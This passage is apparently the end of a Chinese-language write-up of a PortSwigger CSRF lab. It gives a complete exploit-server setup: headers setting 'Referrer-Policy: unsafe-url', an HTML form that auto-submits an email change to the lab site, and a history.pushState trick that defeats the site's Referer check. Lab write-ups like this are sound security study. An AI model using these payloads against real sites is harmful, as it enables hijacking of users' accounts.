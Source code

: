 在 exploit-server 的 response body 設定以下

File

```
/exploit?bypass=https://0ad00038036a2f0c806794e300af0040.web-security-academy.net/my-account
```

Head

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
```

Body

```html
<html>
  <body>
    <form
      class="login-form"
      name="change-email-form"
      action="https://0ad00038036a2f0c806794e300af0040.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input
        required=""
        type="email"
        name="email"
        value="pwned@evil-user.net"
      />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

點選 "View exploit" 有成功修改 Email，但 "Deliver exploit to victim" 卻沒有判定為 solved，超奇怪...

後來直接看答案，攻擊手法是 `history.pushState("", "", "/?https://0ad00038036a2f0c806794e300af0040.web-security-academy.net/")`

兩種解法應該都可以（？我不知道為什麼我的 PoC 沒有過，是 PortSwigger 的判定機制有問題嗎？求大神解答



## 小結

CSRF 的世界，比我想像的還要複雜，以前在尋找 CSRF 的漏洞時，看到網站有用 CSRF Token，我就會直接放棄。但現在知道即便有 CSRF Token，還是有可能會有風險。同時也學到很多跟 cookie 相關的知識，整體來說是收穫滿滿呀！

## 參考資料

- https://portswigger.net/web-security/csrf
